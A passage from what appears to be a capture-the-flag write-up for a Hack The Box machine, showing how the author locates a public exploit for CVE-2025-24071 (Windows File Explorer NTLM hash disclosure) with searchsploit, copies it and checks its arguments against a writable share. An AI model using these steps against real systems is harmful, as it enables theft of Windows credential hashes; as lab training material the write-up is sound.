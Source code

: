 Opening the file showed **Recent Vulnerabilities** that were discovered in the target environment.

![](images/Pasted%20image%2020250716100340.png)

`CVE-2025-24071` seemed interesting as it discloses NTLM hashes.

```
fcoomans@kali:~/htb/fluffy$ searchsploit --cve 2025-24071
----------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                           |  Path
----------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Windows File Explorer Windows 10 Pro x64 - TAR Extraction                                                                                | windows/remote/52325.py
Windows File Explorer Windows 11 (23H2) - NTLM Hash Disclosure                                                                           | windows/remote/52310.py
----------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

A mirror (`-m`) copy of the exploit was created and it looked like the target's IP and a writable share (`IT` is writable) was all that was needed to run the exploit.

```
fcoomans@kali:~/htb/fluffy$ searchsploit -m 52310
  Exploit: Windows File Explorer Windows 11 (23H2) - NTLM Hash Disclosure
      URL: https://www.exploit-db.com/exploits/52310
     Path: /usr/share/exploitdb/exploits/windows/remote/52310.py
    Codes: CVE-2025-24071
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/fcoomans/htb/fluffy/52310.py



fcoomans@kali:~/htb/fluffy$ python 52310.py
usage: 52310.py [-h] -i IP [-n NAME] [-o OUTPUT] [--keep]
52310.py: error: the following arguments are required: -i/--ip
```
